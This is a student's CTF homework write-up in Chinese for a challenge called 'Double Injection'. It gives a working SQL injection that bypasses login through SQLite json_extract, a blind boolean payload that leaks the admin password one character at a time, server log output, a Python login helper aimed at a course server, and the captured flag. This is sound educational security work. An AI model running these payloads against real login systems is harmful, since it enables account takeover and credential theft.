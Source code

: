 # EDU-CTF HW4 Writeup

學號：`109550157`

## Double Injection - FLAG1

Flag：`FLAG{sqlite_js0n_inject!on}`

在 source code 中，我們可以注意到 `username` 是我們可以 inject 的地方。

![image](https://hackmd.io/_uploads/B1su6IuDa.png)

為了知道 inject 的狀況，我在本機把 server 跑了起來。

一個簡單的 injection 如下：

```
") AS _, 'true' AS password FROM db --
```

若將上面作為 username 輸入，那麼只需使用 `true` 做為密碼即可登入。

以下是我開啟 server 的 `console.log()` 後的顯示結果：

```shell=
hw-doubleinjection-app-1  | query:  SELECT json_extract(users, "$.\") AS _, 'true' AS password FROM db --.password") AS password FROM db
hw-doubleinjection-app-1  | row:  { _: null, password: 'true' }
```

用二個 column 是為了把第一個 column 中的奇妙雙引號給處理掉。

注意到我們可以利用 `WHERE` 和 `UNION` 來構造一個指令，使得我們的條件一旦成立，就使用特定的密碼 A，不成立則使用密碼 B。

很顯然的，為了 leak 出 `$.admin.password` 的內容，我使用了 `unicode` 和 `substr` 函式來取得特定字元的 ASCII 碼，並且條件式簡單判斷該 ASCII 碼是否 < 特定值。

若符合條件，則密碼為 `true`，否則為 `false`。

構造如下：

```
") AS _, 'true' AS password FROM db WHERE unicode(substr( json_extract(users, '$.admin.password'), index )) < value UNION SELECT 'pad' AS _, 'false' AS password FROM db  --
```

我撰寫了以下程式碼，可以做為簡易的登入用工具：

```python=
# url = "http://localhost:3000/"
url = "http://10.113.184.121:10081/"

login_url = f"{url}login"


def login(username, password):
    data = {"username": username, "password": password}
    r = requests.post(login_url, data=data)
    return r.text
```
